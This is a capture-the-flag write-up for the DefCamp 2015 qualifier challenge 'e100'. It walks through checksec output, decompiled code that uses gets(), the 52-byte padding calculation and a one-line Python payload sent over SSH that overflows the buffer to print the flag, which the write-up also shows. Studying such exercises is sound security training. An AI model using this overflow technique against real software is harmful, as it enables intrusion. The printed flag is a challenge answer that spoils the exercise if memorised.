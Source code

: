 [](ctf=defcamp-quals-2015)
[](type=exploit)
[](tags=buffer-overflow)

We are given a [binary](../e100) and a [key](../id_rsa_e100).

```bash
$  file e100.bin 
e100.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```
Also loading in gdb-peda.
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Good. Loading the binary in [Hopper](http://www.hopperapp.com/) and decompiling.
```c
function sub_80484fd {
    var_C = *0x14;
    printf("Enter password: ");
    gets(var_2C);
    if (arg0 == 0xbadb0169) {
            system("cat flag");
    }
    else {
            for (var_30 = 0x0; var_30 < strlen(var_2C); var_30 = var_30 + 0x1) {
                    *(int8_t *)(var_30 + var_2C) = arg0 ^ *(int8_t *)(var_30 + var_2C) & 0xff;
            }
            printf("Your new secure password is: ");
            printf(var_2C);
    }
    eax = var_C ^ *0x14;
    COND = eax == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return eax;
}
```
So a gets and a static hardcoded check. Basic buffer overflow!!

```bash
   0x804851b:	lea    eax,[ebp-0x2c]
   0x804851e:	mov    DWORD PTR [esp],eax
=> 0x8048521:	call   0x80483a0 <gets@plt>
   0x8048526:	cmp    DWORD PTR [ebp+0x8],0xbadb0169
```
This gives us padding = 0x2c+0x8 = 52
Now the final blow.
```bash
$ python -c "print 'A'*52+'\xba\xdb\x01\x69'[::-1]" | ssh -i id_rsa_e100 dctf@10.13.37.6
Pseudo-terminal will not be allocated because stdin is not a terminal.
DCTF{3671bacdb5ea5bc26982df7da6de196e}
Enter password: *** stack smashing detected ***: /home/dctf/e100 terminated
```

Flag:
>DCTF{3671bacdb5ea5bc26982df7da6de196e}